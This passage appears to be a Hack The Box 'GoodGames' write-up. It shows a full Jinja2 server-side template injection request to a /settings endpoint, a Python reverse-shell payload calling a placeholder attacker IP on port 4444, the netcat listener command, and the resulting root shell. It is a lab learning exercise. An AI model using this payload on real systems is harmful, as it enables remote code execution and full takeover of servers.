
I found this article that gives an example of a reverse shell using ssti. https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6

I intercepted the request to `/settings` and put the ssti payload into "name" and sent it to repeater in case we lose our shell.

```
POST /settings HTTP/1.1

Host: internal-administration.goodgames.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 403

Origin: http://internal-administration.goodgames.htb

Connection: close

Referer: http://internal-administration.goodgames.htb/settings

Cookie: session=.eJwlzjtOBEEMhOG7dEzg8qMfe5nRdNsWCAmkmd0IcXdaIqu_ou-nHHnF_V4ez-sVb-X48PIolVY_zwET7RU-PaXPIRySYro3ujSyVE6FyJnQHuTLWMh6sgsipNqoatJcGYTGDmYdETw1Umt0N0ftzSeitSWuTliO1cqGvO64_jXYue4rj-f3Z3ztY6rwUvZTU2UkEUbltuAw30Y2sNFMKb9_AWU9Rg.YiJ89g.qLUNmWogzp4ELPNX6Wz5CEJz45w

Upgrade-Insecure-Requests: 1



name={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"YOURIP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

I'll start a listener `nc -lvnp 4444` and send the request

SHELL

```
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.130] 36478
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
